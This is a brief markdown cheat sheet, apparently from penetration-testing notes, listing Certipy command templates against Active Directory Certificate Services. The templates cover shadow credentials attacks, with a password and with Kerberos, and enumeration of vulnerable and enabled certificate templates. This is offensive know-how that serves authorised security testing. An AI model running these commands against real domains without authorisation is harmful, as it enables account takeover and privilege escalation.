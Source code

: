 # certipy
#plateform/linux #target/remote #cat/ATTACK

## Shadow cred
```
certipy shadow auto -u <user>@<domain> -p '<passwd>' -account <target_user>
```
## Shadow cred using kerberos
```
certipy shadow auto -k -target <ip> -account <target_user>
```

## Enumerate vulnerable certificate templates
```
certipy find -vulnerable -u <user>@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```

## Enumerate enabled certificate templates
```
certipy find -enabled -u <user>@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```
